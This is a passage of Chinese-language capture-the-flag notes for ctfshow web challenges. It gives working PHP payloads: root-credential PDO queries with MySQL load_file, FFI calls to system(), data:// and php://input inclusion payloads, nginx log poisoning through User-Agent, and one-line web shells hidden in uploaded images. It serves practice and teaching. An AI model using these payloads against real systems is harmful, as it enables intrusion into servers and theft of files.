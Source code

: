 先查询数据库名，发现确实存在名为ctftraining的数据库,然后使用load_file函数读取flag文件
```php
c=$dsn = "mysql:host=localhost;dbname=information_schema";
$db = new PDO($dsn, 'root', 'root');
$rs = $db->query("select group_concat(SCHEMA_NAME) from SCHEMATA");
foreach($rs as $row){
        echo($row[0])."|"; 
}exit();
```
```php
c=try {
    $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');

    foreach ($dbh->query('select load_file("/flag36.txt")') as $row) {
        echo ($row[0]) . "|";
    }
    $dbh = null;
} catch (PDOException $e) {
    echo $e->getMessage();
    exit(0);
}
exit(0);
```
### web77
第一步同[web72](#web72)第一步，看到根目录下有`flag36.txt`和`readflag`两个特殊文件  
- [ctfshow-web入门-命令执行（web75-web77](https://blog.csdn.net/Myon5/article/details/140099168)
```php
//用 PHP 中的 FFI（Foreign Function Interface）来调用 C 语言的 system 函数，并执行一个 Shell 命令。

$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//执行 /readflag 程序,并将其输出重定向到文件 1.txt
$ffi->system($a);//通过$ffi去调用system函数
```
## ctfshow-文件包含
### web78-79
?file=data://text/plain,<?=system("ls");?>
?file=data://text/plain,<?=system("cat%20flag.php");?>
### web80
只过滤了小写的`php`  
```
?file=Php://input
<?=system("cat fl0g.php");?>
```
### web81
日志包含,修改`User-Agent`字段
```
?file=/var/log/nginx/access.log
<?php system('ls');?>
<?php system('cat fl0g.php');?>
```
## ctfshow-文件上传
### web151
前端验证，直接禁用js好像不行，先上传个正常文件，抓包修改后缀为`.php`,内容改为一句话木马
### web152
图片末尾添加一句话木马，抓到包后改后缀为`.php`
### web153
#### .htaccess文件
(或者"分布式配置文件")提供了针对每个目录改变配置的方法，即在一个特定的目录中放置一个包含指令的文件，其中的指令作用于此目录及其所有子目录。